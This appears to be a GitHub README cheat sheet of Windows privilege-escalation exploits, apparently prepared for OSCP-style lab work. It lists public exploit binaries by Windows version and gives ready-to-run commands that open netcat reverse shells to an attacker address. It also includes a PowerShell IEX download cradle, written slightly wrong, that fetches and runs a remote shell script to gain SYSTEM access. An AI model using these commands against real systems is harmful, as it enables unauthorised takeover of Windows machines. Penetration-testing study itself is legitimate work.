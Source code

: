 # OSCP-TOOLS

# Windows Server 2003 old windows :

--> If SEImpersonate is Enabled use following exploit - https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
--> Upload nc binary and execute following command.

~ Command : .\churrasco.exe -d "nc.exe <attacker-ip> <attacker-port> -e cmd.exe"

# Windows Server 2008 R2 DataCenter :

--> If 6.1.7600 N/A Build 7600 version then use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

# Microsoft Windows 7 Enterprise :

--> If 6.1.7600 N/A Build 7600 version the use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

~ Command : exploit.exe <attacker-ip> <attacker-port>

# Juicy Potato attacks :

$_Affected_Windows_Verisons

    Windows_10_Enterprise
    Windows_10_Pro
    Windows_7_Enterprise
    Windows_8.1_Enterprise
    Windows_Server_2008_R2_Enterprise
    Windows_Server_2012_Datacenter

📌 Juicy Potato does not work for Windows Server 2019 and Windows 10 versions 1809 and higher. - https://github.com/ohpe/juicy-potato/releases

--> For CLSID - http://ohpe.it/juicy-potato/CLSID/

~ Command : juicypotato.exe -l 1337 -t * -p "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe"
    TIP : If upper command doesn't work then try to do the following thing:
    1. Get ready with the nishang reverse shell script edit it with necessary data.
    Then create a bat file on any machine with IEX file downloader one-liner.--- echo powershell -c "IEX (new-object net.webclient).('http://10.10.16.5/shell.ps1')" > shell.bat ---
    2. Then host a python web server and download the .bat file in target machine. After downloading run it as follows:
    3. .\jp.exe -t * -l 1337 -p shell.bat (This will give shell as NT Authority\System) If this doesn't work then also change the CLSID using -c parameter.

# PrinSpoofer Exploit on SEImpersonate : 

--> If the host is Windows Server 2016, 2019 or Windows 10 use this exploit if it has SEImpersoante permission - https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
